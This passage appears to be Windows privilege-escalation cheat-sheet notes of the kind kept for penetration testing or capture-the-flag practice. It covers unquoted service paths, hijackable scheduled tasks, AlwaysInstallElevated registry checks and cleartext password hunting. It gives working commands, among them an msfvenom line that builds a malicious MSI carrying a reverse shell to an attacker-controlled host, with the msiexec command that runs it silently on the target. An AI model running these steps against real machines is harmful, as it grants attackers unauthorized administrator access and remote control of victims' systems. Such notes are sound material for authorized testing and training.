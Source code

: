 Start and stop dllsvc service:
```shell
sc stop dllsvc & sc start dllsvc
```
## Unquoted Service Path
If a service path is unquoted e.g. 
```shell
c:\program file\something else\srve.exe
```
Windows will look first for program.exe, then something.exe etc.

### Finding them
`wmic service get name,displayname,pathname,startmode`
list all running services

Check the binary path of a found service "unquotedsvc"
`sc qc unquotedsvc`

Now check our priveleges on the path:
`.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`

## Quick Wins (probably only CTF related)
### Scheduled tasks
```shell
schtasks
```
Look for tasks that have lost their binary or use a binary you can modify. The task should be set to run with a privilege higher than current.

Can also upload Autoruns64.exe.

### AlwasyInstallElevated
If set we can generate a malicious .msi file.

These two registry values need to be set:
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

Generate a malicious .msi:
`msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

Run Metasploit handler to catch the shell

Then on target:
```shell-session
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Passwords
Look for cleartext passwords.
The find method above^^
